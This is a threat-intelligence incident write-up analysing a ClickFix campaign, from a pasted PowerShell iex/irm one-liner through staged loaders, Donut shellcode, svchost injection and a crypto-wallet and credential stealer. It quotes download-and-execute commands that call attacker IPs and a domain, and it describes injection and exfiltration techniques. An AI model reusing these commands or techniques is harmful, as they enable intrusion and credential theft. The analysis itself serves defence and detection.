Let's ClickFix some errors
Background
Most signals I triage at Huntress trace back to a file. Someone opened an attachment, clicked a link, ran an installer they shouldn't have. The artifact lands on disk, the agent sees it, I pull it apart.
This one was different. There was no file. There was no attachment. The user had pressed Windows + R, pasted a command they'd been told to paste, and pressed Enter. From the operating system's perspective, this was a legitimate user typing into a legitimate dialog box. From my perspective, it was the start of a chain that walked from a 50-byte PowerShell one-liner all the way through to a publicly available cookie decryption tool repurposed by the attacker for credential theft at scale.
The first signal
The Huntress agent registered a high-severity PowerShell detection on a workstation belonging to a user I'll call [User 1]. The command line told me almost everything I needed to know before I'd pulled a single artifact:
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c iex(irm 158[.]94[.]209[.]33 -UseBasicParsing)iex(irm 158[.]94[.]209[.]33 -UseBasicParsing).
Two components matter here. irm is Invoke-RestMethod, which reaches out to a remote server and pulls down whatever text the server returns. iex is Invoke-Expression, which takes that text and runs it as live PowerShell code in the memory of the calling process. No file is ever written to disk. The payload arrives as a string and runs instantly.
The detection timeline showed the process chain Windows recorded: winlogon.exe to userinit.exe to Explorer.EXE to PowerShell.exe. The PowerShell process started at 2026-03-21 11:41:47 UTC. That timestamp became my anchor for the rest of the investigation.

Explorer.EXE, the signature of a user-initiated command rather than a browser or Office child.
The Explorer.EXE parent is doing a lot of work for me. Browser-initiated PowerShell would have an iexplore.exe or chrome.exe parent. Office-macro PowerShell would have winword.exe or excel.exe. A scheduled task would have svchost.exe. The usual legitimate ways for PowerShell to be parented by explorer.exe are a shortcut, a Start Menu search, or the Run dialog. I needed to confirm which.
RunMRU, or who actually typed it?
The Windows Run dialog records every command a user enters into it. The data lives in the registry under HKU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU, with one value per recent entry and an MRUList value that orders them. Nine times out of ten, this is the first place I look when PowerShell shows up as a child of explorer.exe.
I pulled the key.

a holds the literal command pasted into the Run dialog: powershell -c iex(irm 158[.]94[.]209[.]33 -UseBasicParsing)\1.This was not an exploit. This was not an attached document. The user had pressed Windows + R, pasted the command into the box, and pressed Enter. The most likely upstream vector is a phishing page or fake CAPTCHA telling the user to "verify themselves" by running a command they could copy and paste. The technique is sometimes called ClickFix or FileFix, and the reason attackers reach for it is simple: it bypasses everything. There is no file for an AV scanner to inspect, no attachment for an email gateway to detonate, no exploit for a vulnerability scanner to flag. The delivery mechanism is the user's willingness to follow direction.
Stage 1: a hidden child and a new IP
With the initial vector confirmed, I pulled the content that 158[.]94[.]209[.]33 was serving. A simple wget against the IP returned a roughly 20-line PowerShell script.

stage1.txt). The script wraps a second Invoke-WebRequest to a different IP inside a ProcessStartInfo block that spawns a hidden PowerShell process to run it.Three details from Stage 1 are worth pointing at directly.
First, the target IP has changed. The initial Run-dialog command pointed at 158[.]94[.]209[.]33. Stage 1 reaches out to 178[.]16[.]53[.]70. The attacker has separated their script delivery from their next-stage hosting, so blocking one server does not stop the chain.
Second, both stages talk to raw IP addresses rather than domains. This is a recurring choice in this campaign. Raw IPs leave no trace in DNS logs, do not appear in domain-based threat intelligence feeds, and cannot be sinkholed by registering a domain. They also do not require the attacker to renew anything.
Third, and most operationally interesting, Stage 1 does not invoke the next stage in its own process. It uses System.Diagnostics.ProcessStartInfo to spawn a brand-new powershell.exe with WindowStyle set to Hidden and CreateNoWindow set to true. That new process runs the next stage. Security tools track parent-child relationships to reconstruct what happened during an incident. By detaching the rest of the chain into a fresh process at Stage 1, the attacker leaves any tool that wasn't observing in real time with no in-memory chain back to the original explorer.exe-parented PowerShell that started everything.
Stage 2: C#, RWX memory, and a familiar protection flag
A wget against 178[.]16[.]53[.]70 returned Stage 2, also as plain text.

stage2.txt). The script fetches a binary from hxxp://178[.]16[.]52[.]201/9cca20c6df659f72/m_cpt2003.bin, then uses an inline C# class via Add-Type to allocate memory with VirtualAlloc and run the binary on a new thread.
This is where the chain stops looking like a script and starts looking like real shellcode loading. PowerShell does not natively have a way to allocate memory with arbitrary protection flags. To get around that, the attacker embedded a small C# class inside the PowerShell script and used Add-Type -TypeDefinition to compile it on the fly. The class imports four kernel32 functions: VirtualAlloc, GetCurrentProcess, CreateThread, and WaitForSingleObject.
The memory protection flag deserves its own paragraph. VirtualAlloc is called with the protection constant 0x40, which is PAGE_EXECUTE_READWRITE. That is a block of memory the process can read, write to, and execute, all simultaneously. Legitimate software almost never asks for this combination because mixing writable and executable memory is dangerous by design. Modern endpoint security tools watch for exactly this flag in exactly this position, because it is one of the strongest single indicators that shellcode is about to be loaded. The attacker chose it anyway. They needed to copy a downloaded binary into a region and then jump into it as code, and there is no cleaner way to do that with a PowerShell-hosted loader.
A new IP also appears in Stage 2: 178[.]16[.]52[.]201. That makes three servers now, each handling a different tier of the operation.
Stage 3: Donut, SeDebugPrivilege, and the svchost question
The file at hxxp://178[.]16[.]52[.]201/9cca20c6df659f72/m_cpt2003.bin is a 51 KB blob. Opening it in Detect It Easy shows the kind of profile you only get from one thing.

m_cpt2003.bin), showing overall entropy 7.531 and a 94% packed classification. VirusTotal flagged the file 21/72, with labels clustering on Trojan.Donut.Marte.
Donut is a publicly available offensive framework written by The Wover. It takes a standard PE file, wraps it in a layer of encryption with a small decryption stub at the front, and produces a single position-independent shellcode blob. The result executes correctly regardless of where in memory it lands, which is exactly what the Stage 2 VirtualAlloc + CreateThread pattern needs.
The encryption is the problem for static analysis. Inside the Donut wrapper, the original executable is unreadable. To get past it without executing the shellcode in a sandbox, I used Donut Decryptor by Volexity, which understands Donut's internal format, locates the embedded encryption key, and performs the decryption offline.
With the binary unwrapped, the strings told me what Stage 3 was for.

SeDebugPrivilege, svchost.exe, and the next-stage URL hxxp://178[.]16[.]52[.]201/9cca20c6df659f72/m_cpt_bld172638.bin.
SeDebugPrivilege is the Windows privilege required to open and manipulate processes belonging to other security contexts, including SYSTEM-owned processes. The malware enables it on its own access token before doing anything else. Without it, the process injection that follows is blocked at the kernel level.
From there, Stage 3 does three things in sequence. It uses standard WinHTTP functions to fetch the next payload from the same 178[.]16[.]52[.]201 directory. It walks the system process list looking specifically for svchost.exe. And it injects the downloaded blob into the first matching svchost it finds, using VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread.
svchost.exe is a deliberate choice. A normal Windows machine has between ten and twenty instances of it running at any given time. It is a trusted Microsoft-signed binary, it is expected to maintain network connections, and it is a process most EDR tools will not alert on by default for outbound connections. By the time Stage 4 starts running, the attacker's code is executing from inside a process that looks like the operating system.
Stage 4: eighty wallets, a hardcoded key, and a forgotten installer
The Stage 4 binary is another Donut-wrapped payload, fetched by Stage 3 directly into svchost's allocated memory. I pulled a fresh copy from the payload server and ran the same decryption pass. The decrypted module is a 64-bit PE GUI application with 167 KB of executable code and a section reserving 6.4 MB of uninitialised memory. That reserved buffer is the giveaway. Stage 4 is built to collect at scale, with room to stage browser databases, wallet files, a screen capture, and a per-host system-inventory record in memory before encrypting and sending it out.
The strings inside Stage 4 made the targeting concrete.

158[.]94[.]210[.]166, the MSI and ChromeElevator download URLs, the msiexec.exe /i "%s" /qn template, and the %s\sysinfo and %s\chromelevator output path markers.
Stage 4 was hunting through the victim's AppData for:
| Category | Items targeted |
|---|---|
| Cryptocurrency wallets | 80+ browser-extension wallets, including MetaMask, Phantom, Coinbase, OKX, Trust Wallet, TokenPocket, BackpackWallet, OpenMaskWallet, MewCX |
| Password managers | 14 browser-extension password managers |
| Messaging | Telegram Desktop session data |
| File transfer | FileZilla saved credentials |
| Remote access | OpenVPN connection profiles |
| Browsers (profile sources for the cookie stealer) | Chromium-family (Chrome, Edge, Brave, Opera), Gecko-family (Firefox, Waterfox, LibreWolf, Pale Moon) |
| Host snapshot | Screen capture written to a Screenshot.jpg path with an image/jpeg MIME marker |
| System inventory | Per-host sysinfo record (single-instance mutex Global\sysinfo, on-disk path templated with a date-and-time format string) |

Screenshot.jpg filename and an image/jpeg MIME string alongside more wallet and browser path constants, confirming a screenshot is produced during collection.
Collected data is encrypted with AES-256 before transmission. The attacker made a mistake here that is worth pointing at: the encryption key is hardcoded directly into the binary. Because I extracted it during static analysis, any captured exfiltration traffic from this campaign can be decrypted offline by an incident responder. The string that sits next to the key in Stage 4's data section reads sysinfo aes256 channel key 2024!!. The label is informative on its own. The key is the AES-256 channel key used for sysinfo exfiltration, and the trailing 2024!! is a campaign-year tag that suggests this same key has been carried across builds for at least a year before the March 2026 incident.

0x0002e5cf reads sysinfo aes256 channel key 2024!!.
Exfiltration itself does not use HTTP. Stage 4 calls into ws2_32.dll and opens raw TCP sockets to 158[.]94[.]210[.]166. This is a deliberate choice that bypasses web proxies and HTTP content inspection. A SOC that only inspects ports 80 and 443 with TLS termination will see nothing from this payload.
One of the more useful lines in the string dump was the additional download URL list. Stage 4 doesn't just exfiltrate. It also fetches two further payloads from the same 178[.]16[.]52[.]201 directory: an MSI installer and a Chrome-related binary (chromelevator.bin). A quick note on the MSI's naming, because both labels appear from here onward. On the payload server, the file is hosted as t_installer.msi, which is the name visible in Figure 8 above and in the directory listing later. In my logs and the binary's static-analysis output, the same file shows up under the shorter name install.msi. They are the same artifact, just labelled differently in each context. The MSI is fetched, written to %LOCALAPPDATA%\Temp\~vrf<GetTickCount>.msi, and executed silently with msiexec.exe /i "..." /qn. This is the first point in the chain where a payload gets written to disk.
Two directions to chase
When I attempted to download the remaining files directly from the attacker's server, the results were mixed. The Chrome binary came down without resistance, which confirmed the server was still serving traffic. The installer, however, returned a file-not-found on direct requests. My first read on that was that the operator had pulled the file as a single-use download keyed to a victim identifier I did not have. The actual cause, as I'll show a few paragraphs below, turned out to be something simpler.
Either way, that gave me two directions to chase. I needed to determine whether the installer had actually executed on the victim's machine before I lost access to the file, and I needed to examine what the Chrome binary did on its own. To keep the timeline in order, I followed the installer first.
This is where I moved into timeline correlation, and in a real SOC environment it takes up a significant amount of time. Logs rarely sit in one place. They come from EDR platforms, endpoint telemetry, network monitoring, SIEM systems, and more.
Following the installer
I confirmed the install actually ran by going back to the EDR telemetry. The anchor timestamp was 11:41:47 UTC. I pivoted to host process events in Elastic and searched for msiexec.exe.

msiexec.exe process events on the affected host. A silent install fired at 2026-03-21 11:41:58.265 UTC, eleven seconds after the initial PowerShell execution, with command line msiexec.exe /i "C:\Users\[REDACTED]\AppData\Local\Temp\~vrf262689062.msi" /qn.The 11-second gap is informative. It suggests the stealer ran, completed its initial collection pass, fetched the MSI, executed it, and finished, all in the span of a brief pause. By the time the user could have noticed anything off about their machine, the install was already done.
The EDR data answered the first question. The installer ran. But to answer what it actually did, I still needed the file itself, and the host was offline so live forensic collection was off the table. The direct fetch I had attempted earlier had returned a file-not-found, which I had read as a pulled single-use download.
I went back to it and looked more carefully. When I navigated to the URL in a standard browser, the server returned a Cloudflare-style "not found" page. The attacker had configured the payload server to filter requests based on the User-Agent header, and a normal browser request did not match what the malware sends. The single-use interpretation was wrong. The file was still there, the server just would not hand it over unless the request looked like it came from a victim.
The workaround was small. In Chrome's DevTools, under Network conditions, I overrode the User-Agent to a generic Mozilla/5.0 (Windows NT 10.0; Win64; x64) PowerShell/7.4.1 string and reloaded the page.

178[.]16[.]52[.]201/9cca20c6df659f72/. Visible files include chromelevator.bin (1.4 MB), dl_cpt2003.bin (32 KB), t_installer.msi (36 KB), and several other Donut-wrapped variants.This was the operational-security failure of the campaign. One header check that the attacker had bothered to put in place, and a single misconfiguration that gave me full visibility into their entire payload set with no other authentication required. I pulled a copy of every file in the directory.
The reinfection mechanism
With the MSI recovered, I opened it in lessmsi, which reads the installer's internal tables without executing any custom actions.

lessmsi view of the MSI's CustomAction table. The PowerShell Execute row generates a random victim ID, then runs iex (New-Object Net.WebClient).DownloadString('hxxps://sctlogin[.]click/captcha.php') against a domain not seen earlier in the chain.
sctlogin[.]click was a domain I hadn't seen before. Passive DNS and registration lookups showed it had been registered about a month before the campaign launched, with 7/94 vendors already flagging it as malicious, under a "Spam" classification. Pivoting on the domain surfaced multiple installer files contacting it, including the install.msi sample I recovered and a separate ~vrf250503.msi from a later campaign run. The domain also resolves on www.sctlogin[.]click and exposes a banking.sctlogin[.]click subdomain, which together suggest the same infrastructure is being reused for credential-harvesting pages elsewhere.
When I tried to fetch the payload that sctlogin[.]click/captcha.php was serving, the request failed. The domain no longer resolves at the time of analysis. The attacker had either taken it down or moved on. I could not retrieve the response, but the call itself is enough on its own: the MSI's custom action runs iex on whatever captcha.php returns, so any PowerShell that endpoint serves executes automatically as part of the install, no user interaction. The endpoint name matches the ClickFix branding upstream, which makes a follow-on stage of the same chain the most likely content, but I cannot confirm exactly what was being served at the time of compromise. Either way, the MSI is wired as a remote-PowerShell trigger that fires every install, which is what makes it a reinfection mechanism.
ChromeElevator: when attackers borrow from the security community
The other file fetched by Stage 4, chromelevator.bin, is a 1.4 MB binary that turned out to be a completely separate compilation lineage from the Donut chain. VirusTotal flagged it 53/72, with most labels in the Trojan.Loader.Donut / ShellcodeLoader cluster despite the binary not being Donut-wrapped at all. The detection rate was unusually high for a freshly built sample, which suggested the underlying source had been seen in many campaigns already.
